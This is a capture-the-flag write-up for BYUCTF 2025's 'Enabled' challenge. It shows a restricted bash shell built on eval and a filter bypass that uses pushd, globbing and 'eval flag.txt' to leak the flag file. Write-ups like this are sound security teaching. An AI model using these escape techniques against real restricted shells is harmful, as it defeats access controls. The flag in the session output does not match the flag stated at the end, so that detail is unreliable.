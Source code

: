 # BYUCTF 2025 – Enabled 

---

## Challenge Overview

| Field       | Value                                     |
|------------|--------------------------------------------|
| Name        | Enabled                                   |
| Category    | Pwn / Bash / Sandbox Escaping             |
| Points      | 100                                       |
| Difficulty  | Medium                                    |
| Server      | `nc enabled.chal.cyberjousting.com 1352`  |

---

## Challenge Source

```bash
#!/bin/bash

unset PATH
enable -n exec
enable -n command
enable -n type
enable -n hash
enable -n cd
enable -n enable
set +x

echo "Welcome to my new bash, sbash, the Safe Bourne Again Shell! There's no exploiting this system"

while true; do
    read -p "safe_bash> " user_input

    [[ -z "$user_input" ]] && continue

    case "$user_input" in 
        *">"*|*"<"*|*"/"*|*";"*|*"&"*|*"$"*|*"("*|*"\`"*) echo "No special characters, those are unsafe!" && continue;;
    esac

    eval "$user_input"
done
```

This is a restricted shell that:
- Disables key bash builtins like exec, cd, command, and enable.
- Blocks dangerous characters like /, &, ;, and others through pattern matching.
- Relies on eval to execute your input, but only allows what it considers "safe".
Our goal is to bypass the character filter and regain shell control to extract the flag.


## Attacking strategy

### 1.Understand the Filter

This line filters out characters commonly used for command execution:

```bash
case "$user_input" in 
    *">"*|*"<"*|*"/"*|*";"*|*"&"*|*"$"*|*"("*|*"\`"*) ...
```
The following characters are banned:
> < / ; & $ ( `

So any payload must avoid all of those.

Despite the restrictions, the shell still allows:
```text
 Alphanumerics
 Brackets [ and ]
 Bash builtins (but only the enabled ones)
    The eval function for interpreting raw commands
    The enable builtin is disabled (enable -n enable), but he pushd and popd builtins are not disabled.
```

### 2. Abuse pushd and popd for directory stack


pushd and popd are directory stack builtins. If we can traverse directories and find the flag, we can read it using echo * once inside its directory (globbing is allowed!).

```bash
nc enabled.chal.cyberjousting.com 1352
Welcome to my new bash, sbash, the Safe Bourne Again Shell! There's no exploiting this system
>> pushd ..
/ /app
>> echo *
app bin boot dev etc flag home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var
>> pushd flag
/flag / /app
>> echo *
flag.txt
>> cat flag.txt                                             (cat don't work)
/app/run: line 25: .flag.txt: No such file or directory
>> head -n 10 flag.txt                                      (head don't work)
/app/run: line 25: head: No such file or directory
>> eval flag.txt                                            (eval works!)
flag.txt: line 1: byuctf{enable_can_do_some_funky_stuff_huh?_488h33d}: command not found
history -r flag.txt
```

### Flag:
```text
byuctf{bash_builtins_are_a_double_edged_sword}
```

